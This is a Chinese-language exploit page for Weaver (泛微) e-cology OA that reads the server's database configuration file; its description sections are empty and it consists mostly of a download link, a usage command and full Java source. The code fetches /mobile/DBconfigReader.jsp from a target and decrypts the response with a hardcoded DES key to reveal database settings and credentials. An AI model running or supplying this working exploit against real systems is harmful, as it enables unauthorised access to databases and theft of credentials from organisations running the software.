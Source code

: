 泛微OA 数据库配置文件读取
=========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

`https://download.0-sec.org/Web安全/泛微OA/ecologyExp.jar-master.zip`

使用方式：

jdk 1.8以上，没混淆可以直接看源码

使用方法：

java -jar ecologyExp.jar http://0-sec.org

源代码如下，编译好的在上方github链接里。

    package com.test;

    import org.apache.http.HttpEntity;
    import org.apache.http.client.methods.CloseableHttpResponse;
    import org.apache.http.client.methods.HttpGet;
    import org.apache.http.impl.client.CloseableHttpClient;
    import org.apache.http.impl.client.HttpClientBuilder;
    import org.apache.http.util.EntityUtils;

    import javax.crypto.Cipher;
    import javax.crypto.SecretKey;
    import javax.crypto.SecretKeyFactory;
    import javax.crypto.spec.DESKeySpec;
    import java.security.SecureRandom;

    public class ReadDbConfig {
        private final static String DES = "DES";
        private final static String key = "1z2x3c4v5b6n";

        public static void main(String[] args) throws Exception {
            if(args[0]!=null&& args[0].length() !=0){
                String url = args[0]+"/mobile/DBconfigReader.jsp";
                System.out.println(ReadConfig(url));
            }else{
                System.err.print("use: java -jar ecologyExp  http://127.0.0.1");
            }
        }

        private static String ReadConfig(String url) throws Exception {
            CloseableHttpClient httpClient = HttpClientBuilder.create().build();
            HttpGet httpGet = new HttpGet(url);
            CloseableHttpResponse response = httpClient.execute(httpGet);
            HttpEntity responseEntity = response.getEntity();

            byte[] res1 = EntityUtils.toByteArray(responseEntity);

            byte[] data = subBytes(res1,10,res1.length-10);

            byte [] finaldata =decrypt(data,key.getBytes());

            return (new String(finaldata));
        }

        private static byte[] decrypt(byte[] data, byte[] key) throws Exception {

            SecureRandom sr = new SecureRandom();
            DESKeySpec dks = new DESKeySpec(key);
            SecretKeyFactory keyFactory = SecretKeyFactory.getInstance(DES);
            SecretKey securekey = keyFactory.generateSecret(dks);
            Cipher cipher = Cipher.getInstance(DES);
            cipher.init(Cipher.DECRYPT_MODE, securekey, sr);

            return cipher.doFinal(data);
        }

        public static byte[] subBytes(byte[] src, int begin, int count) {
            byte[] bs = new byte[count];
            System.arraycopy(src, begin, bs, 0, count);
            return bs;
        }

    }
